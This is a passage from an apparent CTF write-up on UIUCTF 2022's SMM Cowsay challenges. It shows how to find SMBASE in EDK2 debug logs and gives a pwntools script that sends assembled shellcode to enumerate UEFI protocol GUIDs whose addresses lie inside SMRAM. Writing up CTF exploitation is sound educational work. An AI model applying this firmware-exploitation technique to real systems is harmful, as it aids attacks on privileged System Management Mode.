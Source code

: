 If we take a look at [the file `MdePkg/MdePkg.dec`][edk2-MdePkg] in the EDK2  
source code we have a bunch of GUIDs for different protocols. Without even  
wasting time inspecting other parts of the source code, we can dump them all
and  
try requesting every single one of them, until we find an address that looks  
interesting.

Again, patching the `run.sh` script to let QEMU dump EDK2 debug output to a
file  
like we did for SMM Cowsay 2, we can find SMBASE, which I assumed as the start  
address of SMRAM when writing the exploit. *In theory, SMRAM can expand before  
and after SMBASE, which according to Intel Doc just marks the base address
used  
to find the entry point for the SMI handler and the save state area.*

```  
CPU[000]  APIC ID=0000  SMBASE=07FAF000  SaveState=07FBEC00  Size=00000400  
```

Now, using the same code we used for both the previous challenges, we can
check  
every single protocol GUID listed in `MdePkg/MdePkg.dec` and see if the
address  
returned is after SMBASE:

```python  
with open('debug.log') as f:  
   for line in f:  
       if line.startswith('CPU[000]  APIC ID=0000  SMBASE='):  
           smbase = int(line[31:31 + 8], 16)

# Manually or programmatically extract GUIDs from MdePkg/MdePkg.dec

for guid in guids:  
   code = asm(f'''  
       /* LocateProtocol(&guid, NULL, &protocol) */  
       lea rcx, qword ptr [rip + guid]  
       xor rdx, rdx  
       lea r8, qword ptr [rip + protocol]  
       mov rax, {LocateProtocol}  
       call rax

       test rax, rax  
       jnz fail

       mov rax, qword ptr [rip + protocol]  
       ret

   fail:  
       ud2

   guid:  
       .octa {guid}  
   protocol:  
   ''')  
   conn.sendline(code.hex().encode() + b'\ndone')

   conn.recvuntil(b'RAX: 0x')  
   proto = int(conn.recvn(16), 16)

   if proto > smbase:  
log.info('Interesting protocol: GUID = 0x%x, ADDR = 0x%x', guid, proto)  
```


[smm1]: #smm-cowsay-1  
[smm2]: #smm-cowsay-2  
[smm3]: #smm-cowsay-3  
[uiuctf]:                              https://ctftime.org/event/1600/  
[uiuctf-archive]:                      https://2022.uiuc.tf/challenges  
[author]:                              https://github.com/zhuyifei1999  
[uefi-spec]:                           https://uefi.org/specifications  
[man-cowsay]:                          https://manned.org/cowsay.1  
[man-pahole]:                          https://manned.org/pahole.1  
[x64-call]:                            https://docs.microsoft.com/en-
[x86-rsm]:                             https://www.felixcloutier.com/x86/rsm  
[gh-pwntools]:                         https://github.com/Gallopsled/pwntools  
[gh-edk2]:                             https://github.com/tianocore/edk2  
[gh-edk2-securityex]:                  https://github.com/jyao1/SecurityEx  
[gh-qemu]:                             https://github.com/qemu/qemu  
[edk2-SystemTable]:                    https://edk2-docs.gitbook.io/edk-ii-